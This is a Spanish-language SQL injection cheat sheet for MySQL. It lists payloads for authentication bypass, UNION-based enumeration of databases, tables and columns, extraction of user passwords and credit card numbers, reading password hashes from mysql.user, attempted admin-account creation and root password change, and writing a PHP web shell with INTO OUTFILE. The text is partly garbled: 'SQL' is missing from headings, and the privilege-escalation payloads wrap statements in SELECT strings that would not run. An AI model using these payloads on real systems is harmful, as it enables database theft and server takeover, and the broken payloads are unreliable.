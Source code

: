 # 📌 Manual de Injection en My

## 🛠 1. Identificar si una entrada es vulnerable

### 1.1. Probar si hay error de

Colocamos una comilla en la entrada para ver si genera un error:

```
'
```

### 1.2. Intentar autenticación bypass con condición OR

```
' OR '1'='1
```

### 1.3. Verificar si la inyección afecta a consultas numéricas

```
1 OR 1=1
```

---

## 📌 2. Obtener información básica de My

### 2.1. Obtener la versión de la base de datos

```
' UNION SELECT @@version, NULL; --
```

### 2.2. Obtener el nombre de la base de datos actual

```
' UNION SELECT database(), NULL; --
```

### 2.3. Obtener el usuario actual de la base de datos

```
' UNION SELECT user(), NULL; --
```

### 2.4. Obtener los usuarios de la base de datos

```
' UNION SELECT user, NULL FROM users; #
```

---

## 📌 3. Enumerar bases de datos y tablas

### 3.1. Listar todas las bases de datos

```
' UNION SELECT schema_name, NULL FROM information_schema.schemata; --
```

### 3.2. Listar todas las tablas de la base de datos actual

```
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = database(); --
```

### 3.3. Intentar crear una tabla

```
1' '; create table hakers(id int(10),data text(10)) #
```

### 3.4. Listar todas las columnas de una tabla específica

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users'; --
```

---

## 📌 4. Extraer información sensible

### 4.1. Obtener usuarios y contraseñas de una tabla de usuarios

```
' UNION SELECT user, password FROM users; --
```

### 4.2. Obtener correos electrónicos almacenados

```
' UNION SELECT user,last_login FROM users; #
```

### 4.3. Obtener tarjetas de crédito (si existen en la base de datos 😈)

```
' UNION SELECT card_number, card_cvv FROM credit_cards; --
```

---

## 📌 5. Bypass de autenticación

### 5.1. Iniciar sesión sin contraseña

```
' OR '1'='1' --
```

---

## 📌 6. Escalar privilegios en My

### 6.1. Obtener usuarios de mysql

```
' UNION SELECT user, NULL FROM mysql.user; #
```

### 6.1. Verificar si el usuario actual tiene privilegios de administrador

```
' UNION SELECT user, host, authentication_string FROM my.user; --
```

### 6.2. Intentar crear un nuevo usuario administrador

```
' UNION SELECT "GRANT ALL PRIVILEGES ON _._ TO 'hacker'@'%' IDENTIFIED BY 'password';"; --
```

### 6.3. Cambiar la contraseña del usuario root

```
' UNION SELECT "UPDATE my.user SET authentication_string=PASSWORD('nueva_contraseña') WHERE user='root';"; --
```

---

## 📌 7. Cargar archivos maliciosos (Web Shells)

### 7.1. Escribir un archivo en el servidor (Web Shell en PHP)

```
' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'; --
```
